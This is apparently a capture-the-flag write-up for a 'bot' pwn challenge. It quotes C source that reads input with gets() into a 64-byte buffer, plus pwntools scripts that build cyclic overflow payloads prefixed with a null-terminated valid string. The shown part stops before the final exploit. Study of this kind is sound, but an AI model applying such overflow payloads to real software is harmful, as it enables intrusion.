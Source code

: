 # bot (pwn) by kaiphait  

We got a Dockerfile, a libc, a linker, a binary and the source code,  
which is why my first thought was a ret2libc attack but it turned out that was not necessary.

### Source Code:  
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main(void) {
  setbuf(stdout, NULL);
  char input[64];
  volatile int give_flag = 0;
  puts("hi, how can i help?");
  gets(input);
  if (strcmp(input, "give me the flag") == 0) {
    puts("lol no");
  } else if (strcmp(input, "please give me the flag") == 0) {
    puts("no");
  } else if (strcmp(input, "help, i have no idea how to solve this") == 0) {
    puts("L");
  } else if (strcmp(input, "may i have the flag?") == 0) {
    puts("not with that attitude");
  } else if (strcmp(input, "please please please give me the flag") == 0) {
    puts("i'll consider it");
    sleep(15);
    if (give_flag) {
      puts("ok here's your flag");
      system("cat flag.txt");
    } else {
      puts("no");
    }
  } else {
    puts("sorry, i didn't understand your question");
    exit(1);
  }
}
```

Looking at how the binary gets it's apparently vulnerable to a buffer overflow.
First I built a little script to generate test payloads:  
```
from pwn import *
import sys

junk = cyclic(200)

sys.stdout.buffer.write(junk)
```
```
python fuzzer.py > test
--
gdb bot
--
b main
--
r < test

```

But when I executed the binary with gdb, it did not cause the binary to crash since it exits  
when an input does not equal any of the strings in the source code.

My second try looked like:
```
from pwn import *
import sys

junk = cyclic(200)
prefix = b"give me the flag\0"

sys.stdout.buffer.write(prefix + junk)
```
In order to get the binary to not exit but still overflow the buffer, I added a "valid" input, ending in a nullbyte.
